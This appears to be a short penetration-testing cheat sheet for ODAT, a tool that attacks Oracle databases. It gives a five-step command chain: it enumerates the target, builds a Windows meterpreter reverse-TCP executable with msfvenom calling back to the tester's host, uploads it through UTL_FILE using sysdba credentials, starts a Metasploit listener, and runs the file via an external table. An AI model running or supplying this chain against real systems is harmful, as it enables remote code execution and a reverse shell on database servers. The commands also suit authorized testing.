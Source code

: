 ### Tool: https://github.com/quentinhardy/odat/releases/

### Example usage:

#### 1) 

    ./odat.py all -s IP_ADDRESS

#### 2) 

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=OUR_IP LPORT=PORT -f exe > malicious.exe

#### 3) 

    ./odat.py utlfile -s IP_ADDRESS -U USER -P PASSWORD -d SID --sysdba --putFile c:/ malicious.exe malicious.exe

#### 4) 

    use exploit/multi/handler (Metasploit)

#### 5)  

    ./odat.py externaltable -s IP_ADDRESS -U USER -P PASSWORD -d SID --sysdba --exec c:/ malicious.exe
